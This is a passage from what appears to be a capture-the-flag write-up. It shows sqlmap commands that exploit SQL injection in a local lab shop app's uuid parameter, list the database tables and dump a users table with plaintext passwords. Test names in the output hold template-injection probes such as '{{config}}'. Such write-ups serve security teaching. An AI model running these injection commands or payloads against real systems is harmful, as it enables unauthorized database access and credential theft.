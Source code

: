 

    oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid -D shop --tables
    ...[snip]...
    Database: shop
    [4 tables]
    +----------+
    | items    |
    | messages |
    | support  |
    | users    |
    +----------+
    ...[snip]...



Dump the `users` table:



    oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid -D shop -T users --dump
    ...[snip]...
    Database: shop
    Table: users
    [7 entries]
    +----+--------------------------------------+------------+-----------------+
    | id | uuid                                 | name       | password        |
    +----+--------------------------------------+------------+-----------------+
    | 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
    | 2  | 2185aa99-1f1d-48f6-a835-2410496118d3 | 0xdf       | 0xdf            |
    | 3  | fa3975ea-f2d2-4253-9427-4fab9646781f | 0xdf       | 0xdf            |
    | 4  | 394160c8-b105-4e73-9c2e-cec37580e8a3 | 0xdf'      | 0xdf            |
    | 5  | 63b03184-ec08-411a-bc74-d266797c315d | {{config}} | 0xdf            |
    | 6  | 30b4268c-ffb0-4b39-a006-78f39c135921 | {{3*3}}    | q               |
    | 7  | 138f3d2f-4da5-44c2-aff1-f243ed2c368a | {{config}} | q               |
    +----+--------------------------------------+------------+-----------------+
    ...[snip]...



#### sqlmap Without Proxy

If I had some idea that the cookie values might be vulnable to SQL
injection before I wrote the proxy, I could just use the `--eval` flag
in `sqlmap` as shown
[here](https://book.hacktricks.xyz/pentesting/pentesting-web/flask#flask-unsign).
The example they give is:
